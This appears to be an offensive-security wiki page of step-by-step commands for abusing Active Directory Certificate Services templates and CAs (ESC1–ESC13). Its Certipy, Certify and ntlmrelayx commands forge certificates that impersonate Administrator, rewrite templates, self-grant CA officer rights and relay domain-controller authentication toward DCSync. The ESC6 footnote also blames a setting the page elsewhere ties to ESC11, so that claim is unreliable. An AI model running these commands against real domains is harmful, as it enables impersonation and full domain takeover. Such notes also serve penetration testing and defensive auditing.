

#ad #adcs #certipy #esc1 #esc8

# AD CS (Certificate Services) Abuse

Related: [attacks-defense](../Windows/attacks-defense.md) · [kerberos-tickets](kerberos-tickets.md) · [ntlm-relay](ntlm-relay.md) · [dacl-attacks](dacl-attacks.md)

## Contents
- [Finding Vulnerable Templates (Certipy)](#finding-vulnerable-templates-certipy)
- [ESC Technique Summary](#esc-technique-summary)
- [Decision Flow](#decision-flow)
- [ESC1 — Enrollee-Supplied Subject (Client Auth + SAN)](#esc1--enrollee-supplied-subject-client-auth--san)
- [ESC2 — Any Purpose EKU](#esc2--any-purpose-eku)
- [ESC3 — Certificate Request Agent EKU](#esc3--certificate-request-agent-eku)
- [ESC4 — Vulnerable Template Access Control (Writable ACL)](#esc4--vulnerable-template-access-control-writable-acl)
- [ESC6 — EDITF_ATTRIBUTESUBJECTALTNAME2 Flag on the CA](#esc6--editf_attributesubjectaltname2-flag-on-the-ca)
- [ESC7 — Vulnerable CA Access Control](#esc7--vulnerable-ca-access-control)
- [ESC8 — NTLM Relay to the Web Enrollment Endpoint](#esc8--ntlm-relay-to-the-web-enrollment-endpoint)
- [ESC9 / ESC10 / ESC11 / ESC13 (Brief)](#esc9--esc10--esc11--esc13-brief)

## Finding Vulnerable Templates (Certipy)
```bash
pip3 install certipy-ad
certipy find -u 'user@domain.local' -p 'Password123' -dc-ip <dc-ip> -enabled -vulnerable -text -stdout
```
Enumerate all enabled certificate templates and flag which ESC vulnerabilities apply to each — output includes a `[!] Vulnerabilities` block naming the specific ESC number per template.

## ESC Technique Summary

| ESC | Root Cause | Primary Tool/Command | Impact |
|---|---|---|---|
| ESC1 | Template lets a low-priv enrollee supply an arbitrary SAN, usable for client auth | `certipy req ... -upn 'administrator@domain.local'` | Impersonate any user (e.g. Administrator) via forged cert |
| ESC2 | Template has "Any Purpose" EKU or no EKU restriction | `certipy req ... -template AnyPurposeTemplate` | Exploitable identically to ESC1 |
| ESC3 | Template grants "Certificate Request Agent" EKU | `certipy req -template EnrollmentAgentTemplate` then `-on-behalf-of` | Enroll on behalf of other users (e.g. Administrator) |
| ESC4 | Low-priv principal has `GenericWrite`/`WriteOwner`/`WriteDacl` on the template object | `certipy template -configuration VulnTemplate.json` | Rewrite template to be ESC1-vulnerable, exploit, restore |
| ESC6 | CA-wide `EDITF_ATTRIBUTESUBJECTALTNAME2` flag allows SAN on any template | `certipy req -template User -upn 'administrator@domain.local'` | Every enrollable template becomes ESC1 |
| ESC7 | Low-priv principal holds `Manage CA`/`Manage Certificates` rights on the CA | `certipy ca -add-officer` → `-enable-template SubCA` | Re-enable disabled `SubCA` template, issue arbitrary-UPN cert |
| ESC8 | AD CS Web Enrollment (`/certsrv`) served over HTTP, not HTTPS — relayable | `ntlmrelayx.py --adcs --template DomainController` | Relay coerced auth (e.g. DC) into a usable cert → DCSync |
| ESC9 | `CT_FLAG_NO_SECURITY_EXTENSION` on a template drops the strong-mapping security extension | Combine with shadow-credentials / `altSecurityIdentities` write | Weak cert maps to a privileged account |
| ESC10 | Weak `CertificateMappingMethods` registry setting on the DC | — (DC config issue) | Cert for one user authenticates as another via UPN/subject alone |
| ESC11 | `IF_ENFORCEENCRYPTICERTREQUEST` disabled on the CA's RPC endpoint | `certipy relay -target rpc://...` | ESC8 without needing HTTP web enrollment |
| ESC13 | Template's issuance policy OID maps to a privileged group | Enroll the template | Enrolling grants effective group membership |

## Decision Flow



## ESC1 — Enrollee-Supplied Subject (Client Auth + SAN)
Template allows low-priv enrollment, lets the requester specify an arbitrary SAN, and is usable for client authentication.
```bash
certipy req -u 'user@domain.local' -p 'Password123' -ca CA-NAME -target ca.domain.local -template VulnTemplate -upn 'administrator@domain.local'
```
Request a certificate for the `VulnTemplate` template, impersonating Administrator via UPN in the SAN.
```bash
certipy auth -pfx administrator.pfx -dc-ip <dc-ip>
```
Authenticate with the forged cert via PKINIT and retrieve the account's NT hash.

Windows-side equivalent:
```cmd
Certify.exe find /vulnerable
Certify.exe request /ca:PKI.domain.local\domain-PKI-CA /template:VulnTemplate /altname:Administrator
```
```bash
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```
Request via Certify.exe, then convert the resulting PEM to PFX for authentication (if not already in PFX form).

## ESC2 — Any Purpose EKU
Template has the "Any Purpose" EKU or no EKU restriction — usable the same way as a template built for client auth.
```bash
certipy req -u 'user@domain.local' -p 'Password123' -ca CA-NAME -target ca.domain.local -template AnyPurposeTemplate
```
Exploit identically to ESC1 once a template with Any-Purpose EKU and low-priv enrollment is found.

## ESC3 — Certificate Request Agent EKU
Template grants the "Certificate Request Agent" EKU, letting the holder enroll on behalf of other users.
```bash
certipy req -u 'user@domain.local' -p 'Password123' -ca CA-NAME -target ca.domain.local -template EnrollmentAgentTemplate
certipy req -u 'user@domain.local' -p 'Password123' -ca CA-NAME -target ca.domain.local -template User -on-behalf-of 'domain\administrator' -pfx enrollment_agent.pfx
```
Get an enrollment-agent certificate, then use it to request a certificate on behalf of Administrator.

## ESC4 — Vulnerable Template Access Control (Writable ACL)
A low-priv principal has write access to the template object itself (`GenericWrite`/`WriteOwner`/`WriteDacl`).
```bash
certipy template -u 'user@domain.local' -p 'Password123' -template VulnTemplate -save-old
```
Rewrite the template's settings to make it ESC1-vulnerable (saves the original config first), exploit it as ESC1, then restore:
```bash
certipy template -u 'user@domain.local' -p 'Password123' -template VulnTemplate -configuration VulnTemplate.json
```

> [!WARNING]
> ESC4 abuse mutates the real template object. Always `-save-old` before writing, and restore the saved configuration after exploitation — leaving a template in an ESC1-vulnerable state is a lasting backdoor and a loud indicator of compromise.

## ESC6 — EDITF_ATTRIBUTESUBJECTALTNAME2 Flag on the CA
The CA-wide flag allows any requester to specify a SAN on any template, turning every enrollable template into ESC1.
```bash
certipy req -u 'user@domain.local' -p 'Password123' -ca CA-NAME -target ca.domain.local -template User -upn 'administrator@domain.local'
```
Request any enrollable template with an arbitrary UPN set in the SAN.

> [!NOTE]
> Microsoft's May 2022 patches mitigate ESC6 in many environments by default — confirm the flag is actually set (`certipy find` flags it) before relying on this.[^1]

[^1]: If the CA still honors the SAN despite the patch, it's likely because `CertSrv_EnforceEncryptICertRequest` or equivalent mitigations weren't applied — verify with a live `certipy find` run rather than assuming the technique works.

## ESC7 — Vulnerable CA Access Control
A low-priv principal holds `Manage CA` or `Manage Certificates` rights on the CA itself.
```bash
certipy ca -u 'user@domain.local' -p 'Password123' -ca CA-NAME -add-officer 'user'
certipy ca -u 'user@domain.local' -p 'Password123' -ca CA-NAME -enable-template SubCA
certipy req -u 'user@domain.local' -p 'Password123' -ca CA-NAME -target ca.domain.local -template SubCA -upn 'administrator@domain.local'
```
Grant yourself Officer rights, re-enable the (normally disabled) `SubCA` template, then request a cert through it with an arbitrary UPN.

## ESC8 — NTLM Relay to the Web Enrollment Endpoint
AD CS Web Enrollment (`/certsrv`) is HTTP, not HTTPS, by default — relayable.
```bash
ntlmrelayx.py -t http://ca.domain.local/certsrv/certfnsh.asp -smb2support --adcs --template DomainController
```
Stand up the relay, then coerce the target (a DC, for `DomainController` template) to authenticate to you — e.g. via PetitPotam or the PrinterBug (see [ntlm-relay](ntlm-relay.md)).
```bash
certipy auth -pfx dc.pfx -dc-ip <dc-ip>
```
Authenticate with the relayed-and-issued certificate to get the DC's machine-account hash, enabling DCSync.

> [!IMPORTANT]
> ESC8 ends in DCSync-capable access once you authenticate with the DC's certificate — treat it as a full domain compromise path, not just a single-host foothold. See [dcsync](dcsync.md).

## ESC9 / ESC10 / ESC11 / ESC13 (Brief)
- **ESC9** — `CT_FLAG_NO_SECURITY_EXTENSION` on a template means the issued cert lacks the `szOID_NTDS_CA_SECURITY_EXT` extension, breaking the strong-mapping check — combine with a shadow-credentials or `altSecurityIdentities` write to map a weak cert to a privileged account.
- **ESC10** — weak certificate-mapping registry settings on the DC (`CertificateMappingMethods`) allow a cert for one user to authenticate as another based on UPN/subject alone.
- **ESC11** — `IF_ENFORCEENCRYPTICERTREQUEST` disabled on the CA's RPC endpoint allows relaying to the ICPR (RPC) enrollment interface instead of HTTP — ESC8 without needing web enrollment.
- **ESC13** — a template's issuance policy maps (via OID) to a privileged group, so simply enrolling grants effective group membership.

```bash
certipy find -u 'user@domain.local' -p 'Password123' -dc-ip <dc-ip> -vulnerable -enabled
```
`certipy find`'s vulnerability report flags ESC9–13 by name when applicable — don't hunt for these by hand; let the scan surface candidates, then verify manually.
